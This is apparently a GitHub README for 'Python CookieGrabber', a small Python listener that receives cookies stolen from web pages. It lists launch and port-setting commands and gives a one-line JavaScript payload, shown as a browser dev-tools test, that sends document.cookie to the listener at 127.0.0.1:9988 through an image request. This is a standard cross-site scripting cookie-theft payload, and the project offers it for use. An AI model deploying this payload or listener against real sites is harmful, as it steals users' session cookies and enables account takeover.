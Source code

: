 # Python CookieGrabber
A cookie grabber for webrequests

## Usage

A simple cookie grabber with some formatting.

Start up
```
python3 cookieGrabber.py
```

Set port
```
python3 cookieGrabber.py -p 9999
```

## Images

![image](https://user-images.githubusercontent.com/5285547/133122623-1c9459a8-73a6-418b-acbd-8ee27490be79.png)

Port selection

![image](https://user-images.githubusercontent.com/5285547/133122763-5141ef64-e95f-4027-84e0-750f50700e46.png)

## Dev tools test (F12 firefox, chrome)

![image](https://user-images.githubusercontent.com/5285547/133122858-4189195b-b8ae-4793-a917-9c14c8e928c8.png)

```
(function(){var i = new Image;i.src='http://127.0.0.1:9988/?c'+document.cookie}())
```
